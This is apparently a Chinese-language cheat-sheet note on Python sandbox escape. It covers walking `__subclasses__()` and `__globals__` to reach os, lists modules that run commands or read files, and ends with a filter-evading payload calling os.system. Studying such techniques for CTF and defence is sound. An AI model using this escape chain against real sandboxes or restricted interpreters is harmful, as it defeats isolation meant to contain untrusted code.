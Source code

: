 ## Python

`__builtins__`是以下模块的引用：

```
python2: __builtin__
python3: builtins
```



## Tactic

1.利用下面这种代码可以访问到一些模块：
```py
[].__class__.__base__.__subclasses__()
```

2.利用下面的代码可以访问某个模块导入的模块：
```py
module.__init__.__globals__
```

3.第一点访问的模块中有些模块是导入了`os`或`sys`模块的：
```py
python2:
<class 'site._Printer'>
<class 'site.Quitter'>
<class warnings.catch_warnings>
<class 'warnings.WarningMessage'>

python3:
<class '_sitebuiltins.Quitter'>
<class '_sitebuiltins._Printer'>
```
然后利用第二点就可以访问到os模块了

4.一些姿势可以看ref里的`abusing`和`n种姿势`

#### some interesting stdandard modules

```py


    https://docs.python.org/2/library/types.html   types.FileType 读取文件

    https://docs.python.org/2/library/timeit.html   timeit.timeit 执行代码

    https://docs.python.org/2/library/inspect.html 可以猜测代码结构，如： inspect.getmembers

    https://docs.python.org/2/library/pickle.html   pickle.loads 执行命令

    https://docs.python.org/2/library/os.html   os.popen 执行命令

    https://docs.python.org/2/library/commands.html   commands.getstatusoutput 执行命令

    https://docs.python.org/2/library/subprocess.html   subprocess.popen 执行命令

    https://docs.python.org/2/library/io.html   io.open 读取文件

    https://docs.python.org/2/library/platform.html   platform.popen 命令执行


```

#### final

一个栗子：
```py
python3:
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter'][0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('ls')
```

## Reference

* [bypassing-python-sandbox-by-abusing](http://pbiernat.blogspot.hk/2014/09/bypassing-python-sandbox-by-abusing.html)

* [python-sandbox-bypass](https://joychou.org/web/python-sandbox-bypass.html)

* [python-sandbox](http://www.g5amy.xyz/my_blog/python/python-sandbox/)

* [Python沙箱逃逸的n种姿势 ](https://mp.weixin.qq.com/s/PLI-yjqmA3gwk5w3KHzOyA)

* [Python可用于bypass Sandbox的标准库](http://www.0aa.me/index.php/archives/125/)